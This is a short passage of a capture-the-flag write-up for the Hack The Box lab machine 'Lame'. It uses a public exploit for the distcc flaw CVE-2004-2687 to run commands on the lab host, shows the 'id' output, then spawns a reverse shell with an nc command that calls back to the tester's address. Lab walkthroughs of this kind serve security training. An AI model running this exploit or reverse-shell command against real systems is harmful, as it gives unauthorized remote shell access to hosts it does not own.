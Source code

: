 ## Exploitation: CVE-2004-2687

- So utilizing the exploit at  [https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855), we can check by running the id command and we can see that it does go through, we can also run the ls command too

```shell
┌──(kali㉿kali)-[~/HTB/Lame]
└─$ python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "id"
[OK] Connected to remote service

--- BEGIN BUFFER ---

uid=1(daemon) gid=1(daemon) groups=1(daemon)


--- END BUFFER ---

[OK] Done.
```

![](assets/Lame_assets/Pasted%20image%2020231111155940.png)

- we then get a shell by executing a reverse shell with nc

```shell
python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.7 4444 -e /bin/bash"
```

![](assets/Lame_assets/Pasted%20image%2020231111160657.png)

- and in our nc listener, we get shell
